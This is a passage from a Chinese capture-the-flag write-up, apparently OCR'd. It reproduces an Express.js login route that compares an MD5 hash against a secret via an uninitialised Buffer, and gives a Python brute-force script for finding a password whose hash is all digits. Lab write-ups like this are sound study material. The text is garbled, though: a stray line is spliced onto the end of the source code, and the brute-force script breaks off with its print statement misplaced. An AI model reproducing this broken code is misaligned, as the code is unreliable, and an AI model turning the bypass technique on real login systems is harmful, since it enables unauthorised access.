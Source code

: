 到处看看其实最主要的代码在app/routes/index.js上

```
var express = require('express');
var config = require('../config');
var escape = require('escape-html');  
var crypto = require('crypto');
var reg = /^[0-9]*$/;
var router = express.Router();

router.get('/', function(req, res, next) {
    res.render('index', { title: 'index', admin: req.session.admin });
});

router.get('/admin', function(req, res, next) {
    res.render('admin', { title: 'admin', admin: req.session.admin, flag: config.secret_password });
});

router.get('/logout', function(req, res, next) {
    req.session = null;
    res.json({'status': 'ok'});
});

router.post('/login', function(req, res, next) {
    if(req.body.password !== undefined) {
        var endata = crypto.createHash('md5').update(req.body.password).digest("hex");
        if (reg.test(endata)) {
            var pwd = parseInt(endata.slice(0,3),10);
            password = new Buffer(pwd);
            if(password.toString('base64') == config.secret_password) {
                req.session.admin = 'yes';
                res.json({'status': 'ok' });
            }else{
                res.json({'status': 'error', 'error': 'password wrong: '+password.toString()});
            }
        }else{
            res.json({'status': 'error', 'error': 'password wrong: '+endata.toString()});
        }
    } else {
        res.json({'status': 'error', 'error': 'password missing' });
    }
});

module.exports = router;10:
        print temp 
```

我们观察首先将传送值MD5后，然后用reg正则表达式过滤，只要找到一个串MD5之后都是数字即可，爆破一下得到wzx2，爆破脚本

```
import hashlib
s=['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','1','2']
for s1 in s:
    for s2 in s:
        for s3 in s:
            for s4 in s:
                tmp1=hashlib.md5(s1+s2+s3+s4).hexdigest()
                flag=1
                for i in tmp1:
                    if i<'0'or i>'9':
                        flag =0
                        break
                if flag == 1:
```